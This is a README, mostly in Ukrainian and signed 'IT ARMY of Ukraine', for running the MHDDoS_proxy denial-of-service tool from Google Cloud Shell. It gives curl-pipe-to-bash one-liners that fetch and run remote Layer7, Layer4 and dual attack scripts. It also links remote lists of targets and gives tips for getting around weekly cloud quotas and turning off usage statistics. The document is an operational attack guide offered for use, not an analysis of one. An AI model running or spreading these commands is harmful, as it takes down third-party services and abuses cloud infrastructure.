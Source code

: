 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session
#
# ТЕСТ
Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

Команди для запуску атаки

по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash
```
Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal в налаштуваннях вимикаємо статистику використання.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4


#
#
IT ARMY of Ukraine

